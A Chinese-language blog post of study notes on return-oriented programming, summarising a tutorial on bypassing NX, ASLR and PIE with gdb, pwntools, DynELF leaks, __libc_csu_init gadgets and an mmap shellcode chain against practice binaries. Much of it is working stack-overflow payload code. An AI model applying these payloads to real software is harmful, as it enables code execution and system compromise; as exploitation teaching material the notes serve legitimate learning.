 ```yaml
---
layout: post
title: 一步一步学ROP笔记
slug: note
date: 2018-03-28 14:45
status: publish
author: yuri
tags: 
  - pwn
  - ROP
categories:
  - pwn
excerpt: ROP的全称为Return-oriented programming(返回导向编程),这是一种高级的内存攻击技术可以用来绕过现代操作系统的各种通用防御(比如DEP, ASLR等).

---
```


# 一步一步学ROP笔记
> 原文地址: [一步一步学ROP](drops.wooyun.org/tips/6597)

## x86 

### 无保护

* 关掉canary:  **-fno-stack-protector** 
* 关掉NX:  **-z execstack** 
* 关掉PIE:  **sudo -s echo 0 > /proc/sys/kernel/randomize_va_space** 

### 绕过NX

gdb下找`system()`和`"/bin/sh\x00"`的地址:

```bash
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7e5f460 <system>
(gdb) print __libc_start_main
$2 = {<text variable, no debug info>} 0xb7e393f0 <__libc_start_main>
(gdb) find 0xb7e393f0, +2200000, "/bin/sh"
0xb7f81ff8
(gdb) x/s 0xb7f81ff8
0xb7f81ff8:  "/bin/sh"
```

### 绕过NX和PIE

* 看plt : **objdump -d -j .plt level2**
* 看got : **objdump -R level2**
* 查看目标程序调用的so库 : **ldd level2**

用pwntools: 

```python
elf = ELF('level2')
plt_write = elf.symbols['write']
got_write = elf.got['write']

libc = ELF('libc.so')
system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
```

### 无libc.so

步骤: 
1. 泄露__libc_start_main地址
2. 获取libc版本
3. 获取system地址与/bin/sh的地址
4. 再次执行源程序
5. 触发栈溢出执行system(‘/bin/sh’)

DynELF的使用: 

```python
def leak(address):
    payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
    p.send(payload1)
    data = p.recv(4)
    print "%#x => %s" % (address, (data or '').encode('hex'))
    return data

d = DynELF(leak, elf=ELF('./level2'))
system_addr = d.lookup('system', 'libc')
```

-----

## x64 

### 传参区别

* 前六个参数保存顺序 : **RDI, RSI, RDX, RCX, R8, R9**

### gadgets

* 找ROP:  **ROPgadget --binary level4 --only "pop|ret"**
* 过滤:  **ROPgadget --binary libc.so.6 --only "pop|ret" | grep rdi**

### 通用gadgets part1

`__libc_csu_init()`下: 

```bash
.text:0000000000400840                 public __libc_csu_init
.text:0000000000400840 __libc_csu_init proc near               ; DATA XREF: _start+16o
.text:0000000000400840                 push    r15
.text:0000000000400842                 mov     r15d, edi
.text:0000000000400845                 push    r14
.text:0000000000400847                 mov     r14, rsi
.text:000000000040084A                 push    r13
.text:000000000040084C                 mov     r13, rdx
.text:000000000040084F                 push    r12
.text:0000000000400851                 lea     r12, __frame_dummy_init_array_entry
.text:0000000000400858                 push    rbp
.text:0000000000400859                 lea     rbp, __do_global_dtors_aux_fini_array_entry
.text:0000000000400860                 push    rbx
.text:0000000000400861                 sub     rbp, r12
.text:0000000000400864                 xor     ebx, ebx
.text:0000000000400866                 sar     rbp, 3
.text:000000000040086A                 sub     rsp, 8
.text:000000000040086E                 call    _init_proc
.text:0000000000400873                 test    rbp, rbp
.text:0000000000400876                 jz      short loc_400896
.text:0000000000400878                 nop     dword ptr [rax+rax+00000000h]
.text:0000000000400880
.text:0000000000400880 loc_400880:                             ; CODE XREF: __libc_csu_init+54j
.text:0000000000400880                 mov     rdx, r13
.text:0000000000400883                 mov     rsi, r14
.text:0000000000400886                 mov     edi, r15d
.text:0000000000400889                 call    qword ptr [r12+rbx*8]
.text:000000000040088D                 add     rbx, 1
.text:0000000000400891                 cmp     rbx, rbp
.text:0000000000400894                 jnz     short loc_400880
.text:0000000000400896
.text:0000000000400896 loc_400896:                             ; CODE XREF: __libc_csu_init+36j
.text:0000000000400896                 add     rsp, 8
.text:000000000040089A                 pop     rbx
.text:000000000040089B                 pop     rbp
.text:000000000040089C                 pop     r12
.text:000000000040089E                 pop     r13
.text:00000000004008A0                 pop     r14
.text:00000000004008A2                 pop     r15
.text:00000000004008A4                 retn
.text:00000000004008A4 __libc_csu_init endp   
```

因此若要调用`write(1,got_write,8)`,则可这样构造: 

```python
#rbx必须为0,因为call qword ptr [r12+rbx*8]
#rbp必须为1,0x40088D~0x400894有一个cmp,jnz
#r12 = addr_got,因为call qword ptr [r12+rb1x*8]
#r13 = rdx = arg3
#r14 = rsi = arg2
#r15 = edi = arg1
#retn的padding需要7*8=56byte

#padding
payload1 =  "\x00"*136 
#pop rbx地址_rbx=0_rbp=1_调用函数got_arg1_arg2_arg3
payload1 += p64(0x40089A) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) 
#mov rdx,r13地址(注意看原始汇编)
payload1 += p64(0x400880) 
#padding(7*8=56byte)
payload1 += "\x00"*56
#ret
payload1 += p64(main)
```

此外还有一个x64 gadgets, 就是:

* pop rdi
* ret

的gadgets.这个gadgets还是在这里, 但是是由opcode错位产生的.

如上的例子中0x4008A2、0x4008A4两句的字节码如下:
* 0x41 0x5f 0xc3

意思是pop r15, ret, 但是恰好pop rdi, ret的opcode如下:
* 0x5f 0xc3

因此如果我们指向0x4008A3就可以获得pop rdi, ret的opcode, 从而对于单参数函数可以直接获得执行
与此类似的, 还有0x4008A1处的 pop rsi, pop r15, ret
那么这个有什么用呢？我们知道x64传参顺序是rdi,rsi,rdx,rcx.
所以rsi是第二个参数, 我们可以在rop中配合pop rdi,ret来使用pop rsi, pop r15,ret, 这样就可以轻松的调用2个参数的函数.
综上, 就是x64下利用通用gadgets调用一个参数、两个参数、三个参数函数的方法

### 通用gadgets part2

`_dl_runtime_resolve()`下**（在内存中的地址是随机的）**: 

```bash
0x7ffff7def200 <_dl_runtime_resolve>:       sub     rsp,0x38
0x7ffff7def204 <_dl_runtime_resolve+4>:     mov     QWORD PTR [rsp],rax
0x7ffff7def208 <_dl_runtime_resolve+8>:     mov     QWORD PTR [rsp+0x8],rcx
0x7ffff7def20d <_dl_runtime_resolve+13>:    mov     QWORD PTR [rsp+0x10],rdx
0x7ffff7def212 <_dl_runtime_resolve+18>:    mov     QWORD PTR [rsp+0x18],rsi
0x7ffff7def217 <_dl_runtime_resolve+23>:    mov     QWORD PTR [rsp+0x20],rdi
0x7ffff7def21c <_dl_runtime_resolve+28>:    mov     QWORD PTR [rsp+0x28],r8
0x7ffff7def221 <_dl_runtime_resolve+33>:    mov     QWORD PTR [rsp+0x30],r9
0x7ffff7def226 <_dl_runtime_resolve+38>:    mov     rsi,QWORD PTR [rsp+0x40]
0x7ffff7def22b <_dl_runtime_resolve+43>:    mov     rdi,QWORD PTR [rsp+0x38]
0x7ffff7def230 <_dl_runtime_resolve+48>:    call    0x7ffff7de8680 <_dl_fixup>
0x7ffff7def235 <_dl_runtime_resolve+53>:    mov     r11,rax
0x7ffff7def238 <_dl_runtime_resolve+56>:    mov     r9,QWORD PTR [rsp+0x30]
0x7ffff7def23d <_dl_runtime_resolve+61>:    mov     r8,QWORD PTR [rsp+0x28]
0x7ffff7def242 <_dl_runtime_resolve+66>:    mov     rdi,QWORD PTR [rsp+0x20]
0x7ffff7def247 <_dl_runtime_resolve+71>:    mov     rsi,QWORD PTR [rsp+0x18]
0x7ffff7def24c <_dl_runtime_resolve+76>:    mov     rdx,QWORD PTR [rsp+0x10]
0x7ffff7def251 <_dl_runtime_resolve+81>:    mov     rcx,QWORD PTR [rsp+0x8]
0x7ffff7def256 <_dl_runtime_resolve+86>:    mov     rax,QWORD PTR [rsp]
0x7ffff7def25a <_dl_runtime_resolve+90>:    add     rsp,0x48
0x7ffff7def25e <_dl_runtime_resolve+94>:    jmp     r11
```

* 可以通过函数的PLT确定_dl_runtime_resolve()地址, 其中PLT[2]中跳转的地址就是_dl_runtime_resolve()地址
* 要利用这个gadget, 我们还需要控制rax的值, 因为gadget是通过rax跳转的: 
  0x7ffff7def235 <_dl_runtime_resolve+53>:    mov    r11,rax
  ……
  0x7ffff7def25e <_dl_runtime_resolve+94>:    jmp    r11

------

## 利用mmap执行任意shellcode

mmap或者mprotect将某块内存改成RWX, 然后将shellcode保存到这块内存, 然后控制pc跳转过去就可以执行任意的shellcode了.

```python
#mmap(rdi=shellcode_addr, rsi=1024, rdx=7, rcx=34, r8=0, r9=0)
#参数传递从linker_addr + 0x35开始
#需要先pop rax,ret,且使rax=mmap_addr
#r9,r8,rdi,rsi,rdx,rcx,rax
#最后需要(0x48-8*6)/8 = 3Byte padding
payload3 =  "\x00"*136
payload3 += p64(pop_rax_ret) + p64(mmap_addr)
payload3 += p64(linker_addr+0x35) + p64(0) + p64(34) + p64(7) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0) 
```
